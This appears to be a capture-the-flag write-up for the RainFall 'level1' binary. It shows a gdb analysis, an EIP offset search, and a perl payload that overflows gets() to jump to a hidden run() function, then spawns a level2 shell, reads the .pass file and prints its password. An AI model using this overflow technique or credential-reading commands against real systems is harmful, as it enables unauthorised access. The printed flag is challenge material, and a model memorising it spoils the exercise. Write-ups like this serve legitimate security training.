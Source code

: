 ### Analysis

**In `main` :**
Just a `gets`

We also have a `run` function defined but never used
```
(gdb) info function
...
0x08048444  run
0x08048480  main
...
```

**In `run` :**
Open a shell with `level2` access

___

### Exploit

We need to access `run` by overwritting `eip` using the unprotected `gets` and overflowing the buffer

Getting eip offset using `offset.py`, which is `76`
```
 ❯ python3 offset.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

(gdb) r
Starting program: /home/user/level1/level1
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x54545454 in ?? ()

 ❯ python3 offset.py 54
76
```

Now, we can just replace `eip` with `run` adress
```
level1@RainFall:~$ perl -e 'print "\x90"x76 . "\x44\x84\x04\x08\n"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Let's keep stdin open
```
level1@RainFall:~$ perl -e 'print "\x90"x76 . "\x44\x84\x04\x08\n"' > /tmp/level1 && cat /tmp/level1 - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```